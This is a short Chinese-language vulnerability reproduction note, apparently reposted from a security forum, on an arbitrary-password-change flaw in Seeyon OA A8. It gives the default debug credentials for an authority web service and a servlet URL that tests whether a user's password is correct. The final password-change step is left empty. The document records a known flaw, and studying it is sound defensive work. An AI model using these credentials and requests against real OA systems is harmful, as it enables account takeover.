




# 致远OA A8 任意用户密码修改漏洞

> 原文：[https://www.zhihuifly.com/t/topic/3353](https://www.zhihuifly.com/t/topic/3353)

# 致远OA A8 任意用户密码修改漏洞

## 一、漏洞简介

## 二、漏洞影响

致远OA A8

## 三、复现过程

```
http://www.0-sec.org/seeyon/services/authorityService?wsdl 
```

通过调试接口的默认用户 userName:service-admin password:123456 获取万能Token之后可以修改任意用户密码。



访问

```
http://www.0-sec.org/seeyon/getAjaxDataServlet?S=ajaxOrgManager&M=isOldPasswordCorrect&CL=true&RVT=XML&P_1_String=zw&P_2_String=wooyun 
```

返回false 说明zw密码不正确



修改密码



